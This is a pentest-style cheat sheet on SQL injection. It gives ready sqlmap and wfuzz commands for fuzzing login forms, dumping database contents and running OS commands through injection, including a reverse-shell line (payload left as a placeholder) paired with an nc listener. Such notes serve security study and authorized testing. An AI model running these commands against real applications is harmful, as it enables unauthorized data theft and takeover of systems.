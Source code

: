 # SQL Injection

## Questions to ask yourself
  *  What inputs of the web application are likely to be part of a query?
  *  Do any behaviors of the web app imply DBMS function calls?

## Things to remember
  *  Injection syntax depends on the DBMS under the hood: **Google everything**
      *  Error outputs can reveal **A LOT** about the underlying DBMS
  *  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) for various SQL injection techniques
  *  Watch for filters such as case-sensitivity, whitespace removal, blacklists, etc.

## Useful tools
  *  [`sqlmap`](https://sqlmap.org/) for various SQLi interactions
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) for manually fuzzing web app inputs for SQLi

## Fuzzing for SQL injection
  *  `sqlmap` is the go-to for SQLi fuzzing
      *  Specify files containing request text for HTTP POST fuzzing
      *  Crawl form data to automatically generate HTTP POST fuzz
      *  See [`hacktricks`](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap) page for more precise options
  *  `wfuzz` for applying lists of SQLi techniques
      *  Consider applying HTTP headers/POST data matching inital browsing requests

```
sqlmap -u 'http://10.0.0.1/login'
sqlmap -r http-post-request.txt
sqlmap -u http://10.0.0.1/login --forms -p username --not-string incorrect --batch
```

```
wfuzz -w /path/to/sqli.txt 'http://10.0.0.1/login?username=FUZZ&password=test'
wfuzz -w /path/to/sqli.txt -d 'username=FUZZ&password=test' 'http://10.0.0.1/login'
```

## Automated DB dumping
  *  `sqlmap` for automatically dumping data from vulnerable applications

```
sqlmap -r http-post-request.txt --current-db
sqlmap -u 'http://10.0.0.1/login' --current-user
sqlmap -u 'http://10.0.0.1/login' -D exampleDB --tables
```

## Automated code execution
  *  `sqlmap` for automatically attempting code execution via SQLi
      *  Extended help page `-hh` for detailed OS access options
  *  Headless/batch options for code exec one-liners

```
sqlmap -u 'http://10.0.0.1/login' --os-cmd='cmd /c calc.exe'
sqlmap -r http-post-request.txt --os-cmd='[POWERSHELL BASE64 REVERSE SHELL]' --answers='follow=Y' --batch > /dev/null & nc -nvlp 80
```
